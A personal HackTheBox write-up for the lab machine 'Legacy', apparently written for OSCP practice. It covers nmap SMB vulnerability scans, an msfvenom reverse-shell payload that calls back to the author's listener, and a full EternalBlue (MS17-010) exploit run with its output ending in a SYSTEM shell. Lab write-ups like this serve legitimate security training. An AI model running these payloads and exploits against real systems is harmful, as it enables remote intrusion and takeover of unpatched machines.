 # Legacy

## IP
The IP address for this machine on HackTheBox was `10.10.10.4`.

## NMap Scan
```
sudo nmap -A 10.10.10.4 -p139,445 -vv
...
...
PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Windows XP microsoft-ds
```

This time with NSE Scripts turned on...
	
``` 
kali@kali:~$ sudo nmap -A 10.10.10.4 -p139,445 --script=smb-vuln-* -vv
...
...
PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2000|XP|2003 (90%)
...
...
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.***
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14 
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
...
... 
```

##MS17-010 (CVE-2017-0143)
This is Eternal Blue. At this point, I got stuck and followed Rana Khalil's walkthrough (https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit). I downloaded Impacket into my Ptyhon2.7 directory along with https://github.com/helviojunior/MS17-010.git exploit code. 

From there, I created a reverse Windows TCP shell using meterpreter:
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse-shell.exe```

This creates a reverse Windows TCP shell called "reverse-shell.exe" that attempts to connect to my local machine on port 4444.

##Exploit
From there I started a Netcat listener on port 4444:
```nc -nlvp 4444```
And using helviojunior's ***send_and_execute.py*** script, sent the exploit to the target machine:
```
kali@kali:~/Desktop/OSCP/Legacy/MS17-010 manual exploit/MS17-010-master$ python send_and_execute.py 10.10.10.4 ../../reverse-shell.exe 
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8200d010
SESSION: 0xe105dde8
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1adbf10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1adbfb0
overwriting token UserAndGroups
Sending file ON6AFZ.exe...
Opening SVCManager on 10.10.10.4.....
Creating service JUNd.....
Starting service JUNd.....
The NETBIOS connection with the remote host timed out.
Removing service JUNd.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

Catch on the listener:
```
kali@kali:~/Desktop/OSCP/Legacy$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

This exploit automatically escalates to administrator rights on the target and from there it's just navigating to the proper directories to grab the user and root flags.
